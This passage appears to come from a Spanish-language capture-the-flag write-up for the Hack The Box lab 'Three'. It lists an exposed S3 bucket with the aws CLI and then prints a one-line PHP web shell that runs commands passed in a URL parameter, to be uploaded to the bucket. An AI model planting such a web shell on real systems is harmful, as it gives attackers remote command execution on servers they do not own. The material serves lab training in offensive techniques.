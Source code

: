 La típica para usar el cliente de aws es utilizar el comando, seguido de llamar a s3 y ejecutar por ejemplo un 'ls':

```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

En caso de arrojar un error simplemente ejecutamos `aws configure` y ponemos todo como **temp**.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/aws2.png" alt="under" oncontextmenu="return false;">
</div>

Tenemos capacida de lectura y podemos listar el contenido almacenado en el Bucket de S3 Amazon.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/aws3.png" alt="under" oncontextmenu="return false;">
</div>

Ya que la página interpreta código .PHP, podemos crear un pequeño script .PHP para subirlo al Bucket S3 de Amazon.

**Shell.php**
```php
<?php
	system($_GET["cmd"]);
?>
```

Lo subimos ejecutando `cp shell.php` al Bucket.
